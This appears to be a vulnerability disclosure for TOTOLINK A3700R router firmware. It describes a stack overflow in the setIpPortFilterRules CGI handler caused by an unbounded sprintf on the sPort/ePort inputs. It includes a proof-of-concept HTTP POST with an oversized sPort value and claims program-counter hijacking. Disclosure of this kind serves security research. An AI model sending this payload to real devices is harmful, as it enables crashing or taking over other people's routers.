




# TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：


## Vulnerability details



In setIpPortFilterRules function

`v8 v9` is formatted into `V16` through sprintf function, and` v8 v9` is the value of `sPort ePort` we enter. The size of the format string is not limited, resulting in stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```bash
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.48.128:1234
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 86
Origin: http://192.168.48.128:1234
Connection: close
Referer: http://192.168.48.128:1234/login.html
Cookie: SESSION_ID=2:1700540000:2

{
"topicurl":"setIpPortFilterRules",
"addEffect":"1",
"sPort":"X"*0x1000
}
```





The above figure shows the POC attack effect



As shown in the figure above, we can hijack PC registers.

